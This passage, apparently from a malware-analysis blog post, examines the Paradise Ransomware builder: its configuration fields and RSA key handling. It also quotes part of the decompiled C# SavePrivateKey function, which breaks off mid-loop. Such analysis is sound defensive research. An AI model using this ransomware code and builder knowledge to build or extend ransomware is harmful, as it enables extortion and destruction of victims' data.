 To generate a random RSA encryption vector, click `Generate`. Extension of the name of the encrypted file (Russian `Расширение`). Address of the ransomware's server, used for data collection. Administrator key that is extraneous to encryption and is used to identify the builder user.      

Site and Admin key values are stored in `Server.info`. When re-executed, the constructor will read these values from the file and automatically populate the fields.      

The source code for `DP_Builder`'s main program, decrypter, and private key generator is contained in the resource file. At the time of package creation, random `1024-bit` RSA keys are generated and the ransomware's private key is embedded. This guarantees a particular level of encryption security.      

![paradise](/assets/images/6/2023-06-23_12-38.png){:class="img-responsive"}      

Interesting trick: if there are no keys in the system (host), Paradise Ransomware generates and stores them on the local machine. Unfortunately, the method for storing private keys on disk encrypts them effectively, but there is still work to be done here. The mechanism used by this Ransomware version to handle keys is the most intriguing aspect for analysis. The following image depicts the `SavePrivateKey` function, which does not do what you expect:      

![paradise](/assets/images/6/2023-06-23_12-52.png){:class="img-responsive"}      

```csharp
private static void SavePrivateKey()
{
    List&lt;byte[]&gt; master = new List&lt;byte[]&gt;();
    byte[] masterbytes = Encoding.Default.GetBytes(RSA_Private);
    int iterations = Convert.ToInt32(Math.Ceiling((double)masterbytes.Length / 117));
    int k = 0;
    for (int i = 0; i &lt; iterations; i++)
    {
        byte[] b = new byte[117];
        for (int j = 0; j &lt; 117; j++)
        {
            if (masterbytes.Length &gt; k)
            {
                b[j] = masterbytes[k];
                k++;
```